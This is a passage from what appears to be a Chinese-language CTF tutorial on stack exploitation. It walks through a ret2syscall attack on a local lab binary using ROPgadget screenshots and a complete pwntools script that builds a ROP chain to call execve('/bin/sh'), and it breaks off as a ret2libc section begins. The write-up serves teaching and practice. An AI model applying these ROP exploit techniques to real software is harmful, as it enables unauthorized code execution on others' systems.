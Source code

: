 至于为啥这样写，可以通过这个来解释：

![栈情况.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gheu72ghbdj30br0blq35.jpg)                利用这样依次填充

![寄存器.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gheu7rmdbmj306t04smx2.jpg)

使得我们能够顺利执行payload。

![ROPgadget-binsh.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gheuv3vma8j30mn029q2y.jpg)

![ROPgadget-int_0x80.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gheuvcmvg0j30lg03e74d.jpg)

![计算偏移.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gheuvmoiwcj30cz03qdfu.jpg)

一如既往的计算。可以写`exp`了

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context(log_level = "debug",arch = "i386",os = "linux")

io = process("./ret2syscall")

#ROPgadget to find pop-ret/int_0x80/binsh
pop_eax = 0x080bb196
pop_3exx = 0x0806eb90
padding = 112
int_0x80 = 0x08049421
binsh_addr = 0x080be408

#write payload
payload = flat([padding * 'A',pop_eax,0xb,pop_3exx,0,0,binsh_addr,int_0x80])

io.recvuntil("What do you plan to do?")
#gdb.attach(io,"b *0x804f650\nc")
io.sendline(payload)

io.sendline('ls')
io.interactive()

```

![过关.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gheuxezba4j30o20ahab3.jpg)

###### ret2libc

![main.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gheyzl34quj30o807tjrv.jpg)

由于没给后门函数，以及`libc库`而题中只给了`puts`函数，然而我们通过`objdump`可以看到能利用`puts`函数的`plt`表和`got`表![objdump.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1ghez5v9aq2j30fq0afdgz.jpg)

